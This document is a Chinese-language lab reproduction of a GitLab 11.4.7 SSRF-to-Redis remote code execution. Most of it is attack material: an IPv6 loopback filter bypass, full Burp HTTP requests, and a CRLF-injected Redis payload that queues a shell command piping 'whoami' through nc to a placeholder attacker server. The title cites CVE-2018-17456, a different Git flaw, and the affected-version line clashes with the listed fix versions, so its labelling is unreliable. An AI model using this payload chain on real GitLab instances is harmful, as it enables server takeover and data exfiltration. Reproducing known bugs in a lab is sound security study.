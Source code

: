 # Git漏洞允许任意代码执行(CVE-2018-17456)


------

## 漏洞描述

GitLab 为社区版和企业版发布了 11.3.1、11.2.4 和 11.1.7 安全修复版本。这些版本包含许多重要的安全修复程序，强烈建议立即将所有 GitLab 升级到其中一个版本。其中包含了SSRF漏洞 ，配合上redis 可执行命令。

------

## 受影响的产品

gitlab 11.4.7

------

## 漏洞复现

直接利用docker来搭建，官方有镜像，并启动redis，在服务器A上搭建。

```
cd gitlab-docker
docker-compose up -d
```

完成后可以使用`docker ps`查看是否启动成功

![](./img/1.png)

访问http://ip:5080/ 先注册一个账号并登陆 。然后点 New project - Import project - Repo by URL

![](./img/2.png)

![](./img/3.png)

`Git repository URL`处存在SSRF，使用ipv6地址绕过过滤。
测试下，首先先进入到gitlab容器,命令如下
```
[root@localhost gitlab-docker]# docker ps
CONTAINER ID        IMAGE                          COMMAND             CREATED             STATUS                 PORTS                                                                NAMES
e99725e303d6        gitlab/gitlab-ce:11.4.7-ce.0   "/assets/wrapper"   5 hours ago         Up 5 hours (healthy)   0.0.0.0:5022->22/tcp, 0.0.0.0:5080->80/tcp, 0.0.0.0:50443->443/tcp   gitlab-docker_web_1_35bc6d53be82
[root@localhost gitlab-docker]# docker exec -it e99725e303d6 /bin/bash
root@gitlab:/# 
```
使用nc监听下，需要先下载nc
```
apt update && apt install -y netcat
nc -lvp 1234
```

发送payload
`git://[0:0:0:0:0:ffff:127.0.0.1]:1234/aaa/ssrf.git`

BURP
```
POST /projects HTTP/1.1
Host: 172.16.200.221:5080
Content-Length: 370
Cache-Control: max-age=0
Origin: http://172.16.200.221:5080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.200.221:5080/projects/new
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: sidebar_collapsed=false; _gitlab_session=23fe696ca8e5e02e35b0aadce244cc24; event_filter=all
Connection: close

utf8=%E2%9C%93&authenticity_token=bpgrEbRhSvwWGzqQyENG0xL7%2BVsiL64wFohfGSnIWMM7144hEmhVlV4bIIICrc8jhK30btP4hdJLB59uYsl4nw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:1234/aaa/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=asa1xsx&project%5Bnamespace_id%5D=2&project%5Bpath%5D=sassxx&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```

![](./img/4.gif)

测试可以访问本地的1234端口 ，所以也可以访问redis的6379端口，并使用redis达到命令执行

[@ jobertabma](https://twitter.com/jobertabma)的[PAYLOAD](https://hackerone.com/reports/299473)

```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc xxx.xxx.xxx.xxx 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```

`xxx.xxx.xxx.xxx`换成远程服务器B（攻击端）的IP地址

远程服务器B开启nc监听
```
nc -lvvp 1234
```

所以我们构造的最终payload(url编码)
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cwhoami%20%7C%20nc%20xxx%2Exxx%2Exxx%2Exxx%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```

burp
```
POST /projects HTTP/1.1
Host: 172.16.200.221:5080
Content-Length: 981
Cache-Control: max-age=0
Origin: http://172.16.200.221:5080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.200.221:5080/projects/new
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: sidebar_collapsed=false; _gitlab_session=23fe696ca8e5e02e35b0aadce244cc24; event_filter=all
Connection: close

utf8=%E2%9C%93&authenticity_token=bpgrEbRhSvwWGzqQyENG0xL7%2BVsiL64wFohfGSnIWMM7144hEmhVlV4bIIICrc8jhK30btP4hdJLB59uYsl4nw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cwhoami%20%7C%20nc%20xxx%2Exxx%2Exxx%2Exxx%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=asa1sx&project%5Bnamespace_id%5D=2&project%5Bpath%5D=sassx&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```

![](./img/5.gif)

复现成功

------

## 修复方案

将gitlab升级到最新版本


## 参考文章

* https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/
* https://github.com/jas502n/gitlab-SSRF-redis-RCE